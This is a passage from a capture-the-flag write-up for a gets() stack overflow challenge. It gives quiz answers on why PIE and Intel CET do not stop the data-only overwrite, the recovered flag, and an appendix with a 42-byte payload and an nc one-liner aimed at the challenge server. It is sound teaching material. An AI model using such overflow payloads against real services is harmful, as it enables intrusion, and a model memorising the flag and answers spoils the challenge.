Every meaningful location — `name`'s address and `number`'s address — is expressed and used purely as an
**offset relative to `%rbp`** (`rbp-0x30` and `rbp-0x8` respectively), and the *distance* between those
two relative offsets (`0x28`, 40 bytes) is a property of this function's compiled stack-frame layout,
fixed permanently at compile time — it has absolutely nothing to do with where in the process's address
space that stack frame happens to physically sit on any given execution. Whether the binary loads at one
random base address or another, `rbp`'s value will differ between runs, but `rbp - 0x30` and `rbp - 0x8`
will always be exactly 40 bytes apart relative to each other, every single time. PIE simply has nothing to
randomize that this particular attack depends on.
</details>

---

**Q5. (Interview-style)** This binary enables Intel CET (both `SHSTK` and `IBT`), modern hardware-assisted
control-flow-integrity features. Explain what each one specifically defends against, and why a reviewer
seeing "CET enabled" in a checksec report should not conclude that *all* memory-corruption bugs in that
binary are therefore safe from exploitation.

<details>
<summary>Answer</summary>

**`SHSTK` (Shadow Stack)** maintains a second, hardware-protected copy of return addresses, separate from
the ordinary data stack that regular memory writes (including buffer overflows) can reach. When a `ret`
instruction executes, the CPU compares the return address it's about to use against the shadow copy; a
mismatch — which would occur if an attacker had overwritten the data-stack copy of the return address via
a conventional stack buffer overflow — triggers a fault rather than letting execution jump to the
attacker-controlled address. It specifically defends against **return-address overwrites**.

**`IBT` (Indirect Branch Tracking)** requires that any indirect `call` or `jmp` instruction's target
address must land on a special `endbr64` marker instruction, or the CPU faults. It specifically defends
against **JOP/COP-style attacks** that try to chain together existing code fragments via corrupted
function pointers or similar indirect-control-transfer primitives, by constraining which addresses are
even legal landing points for such transfers.

The reason a reviewer shouldn't treat "CET enabled" as a blanket guarantee of safety is exactly what this
challenge demonstrates directly: **both of these mitigations defend specifically against control-flow
corruption** — they have a narrow, well-defined threat model (illegitimate return addresses, illegitimate
indirect-branch targets). Neither one has any mechanism for detecting, preventing, or even noticing that
an *ordinary, non-control-flow local variable* was overwritten by an out-of-bounds write, because that
isn't the category of attack either feature was designed to address. A memory-safety bug that never
touches a return address or performs an indirect branch simply exists entirely outside CET's field of
view — which is precisely why this challenge's data-only exploit works completely unimpeded on a binary
that would, correctly, stop a naive return-address-overwrite attempt cold.
</details>

---

## 15. Final Result

```
sigpwny{hmm_gets_seems_a_little_unsafe}
```

```python
payload = b"A" * 40 + b"B\n"
```

A 42-byte payload: 40 bytes of padding to reach `number`'s boundary, one explicitly chosen byte
(`'B'`, `0x42`) landing on `number`'s first byte, and — critically, whether or not it's spelled out in
the payload itself — `gets()`'s own implicit NUL terminator landing on the second byte immediately after
it. Together, those two changed bytes turn `0xdeadbeef` into `0xdead0042`, satisfying the program's
existing `!= 0xdeadbeef` check and triggering `print_flag()`, without the exploit ever needing to
contend with PIE, full RELRO, or either of this binary's two Intel CET features — none of which were ever
part of the attack surface this particular bug exposes.

---

## Appendix A — Commands Reference

```bash
# Build and inspect the payload locally
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' > payload.bin
xxd payload.bin

# Run locally against the raw binary
./challenge < payload.bin

# Disassemble and verify offsets with GDB
gdb -q ./challenge
#   info functions
#   disassemble main
#   break *main+88        ; right after gets() returns, before the cmp
#   run < payload.bin
#   p/x number
#   x/8bx &number
#   p/x &name
#   p/x &number
#   info registers rbp rsp rip
#   x/8gx $rbp

# Run the exploit scripts
python3 local_test.py
python3 exploit.py

# Or the one-line version against the remote service
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' | nc chal.sigpwny.com 1337
```

---

*Write-up expanded with the little-endian overwrite mechanics worked through at the byte level including
`gets()`'s own implicit NUL terminator's role (not just the explicitly-sent character), an experimentally
verified "zero extra bytes" edge case, a full accounting of every individual checksec protection and
precisely why each one is irrelevant to this specific attack, and a quiz section covering both the
mechanical details and the broader principle of matching exploit precision to win-condition precision.*
